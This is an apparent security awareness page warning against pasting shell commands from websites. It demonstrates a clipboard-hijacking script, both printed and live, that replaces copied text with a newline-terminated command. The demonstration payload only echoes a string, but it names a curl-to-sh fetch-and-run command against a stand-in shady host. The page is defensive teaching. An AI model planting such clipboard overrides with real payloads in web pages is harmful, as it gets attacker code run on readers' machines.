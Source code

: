

# Don't Copy Paste Into A Shell

When you see some shell command on the internet, do not copy it into your terminal.

Modern JavaScript Clipboard APIs allow a website to trivially overwrite what you put inside your clipboard, without the user's confirmation or permission.


Here is an example of how easy it is to perform this attack. Imagine that the red text below is a shell command you want to use.


<p id="copyme" style="background-color:red;">$ echo "looks safe to me!"</p>


Note that you don't even have to press ENTER in your terminal after pasting for the exploit to happen. The payload conveniently contains a trailing newline that does that for you!

Here is the JavaScript that is performing the exploit.

```
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 
        'echo "this could have been [curl http://myShadySite.com | sh]"\n'
    );
    e.preventDefault();
});
```

<script>
document.getElementById('copyme').addEventListener('copy', function(e) {
    e.clipboardData.setData('text/plain', 'echo "this could have been [curl http://myShadySite.com | sh]"\n');
    e.preventDefault();
});
</script>